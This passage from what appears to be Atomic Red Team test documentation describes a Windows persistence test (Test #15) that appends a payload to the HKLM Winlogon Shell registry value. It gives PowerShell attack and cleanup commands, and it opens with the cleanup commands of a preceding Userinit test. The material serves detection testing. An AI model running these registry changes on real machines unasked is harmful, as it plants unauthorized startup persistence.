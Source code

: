 #### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name 'Userinit-backup');
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Userinit" -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name 'Userinit-backup'
```





<br/>
<br/>

## Atomic Test #15 - HKLM - Modify default System Shell - Winlogon Shell KEY Value 
This test change the default value of HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell from "explorer.exe" to the full path of "C:\Windows\explorer.exe" 
to log a change to the key's default value without breaking boot sequence. 
An atacker will alternatively replace this with a custom shell.

**Supported Platforms:** Windows


**auto_generated_guid:** 1d958c61-09c6-4d9e-b26b-4130314e520e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | what to run | string | C:&#92;Windows&#92;explorer.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell");
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell-backup" -Value "$oldvalue";
$newvalue = $oldvalue + ", #{payload}";
Set-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value "$newvalue"
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name 'Shell-backup');
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name 'Shell-backup'
```
